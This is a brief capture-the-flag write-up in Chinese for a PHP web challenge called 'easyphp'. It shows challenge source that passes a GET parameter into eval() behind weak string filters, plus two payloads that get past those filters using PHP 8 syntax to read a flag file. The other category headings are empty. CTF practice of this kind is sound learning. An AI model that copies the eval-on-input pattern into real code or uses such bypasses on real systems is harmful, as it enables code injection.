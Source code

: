 
# web
### easyphp
```![hint]
php8的新特性
```

源码`
```php
<?php
highlight_file(__FILE__);
$num = $_GET['num'];
if(is_string($num) && strlen($num) < 5 && strpos($num,'111') === false && strpos($num,'0') === false && eval("return 111===${num};")){
    readfile('/flag');
}
```

payload
```
?num=1_11
?num=1|1
```

# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-18   19:52